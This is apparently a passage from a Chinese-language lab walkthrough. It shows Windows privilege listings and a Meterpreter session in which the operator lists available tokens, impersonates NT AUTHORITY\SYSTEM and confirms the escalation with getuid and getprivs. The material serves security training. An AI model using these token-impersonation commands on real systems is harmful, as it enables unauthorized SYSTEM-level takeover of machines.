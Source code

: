 ```
Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

```

账户`NT AUTHORITY\SYSTEM`有`SeImpersonatePrivilege`权限。

```
meterpreter > list_tokens -u
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
ATTACKDEFENSE\Administrator
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\SYSTEM
Window Manager\DWM-1

Impersonation Tokens Available
========================================
Font Driver Host\UMFD-0
Font Driver Host\UMFD-1
NT AUTHORITY\NETWORK SERVICE

meterpreter > impersonate_token "NT AUTHORITY\SYSTEM"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
```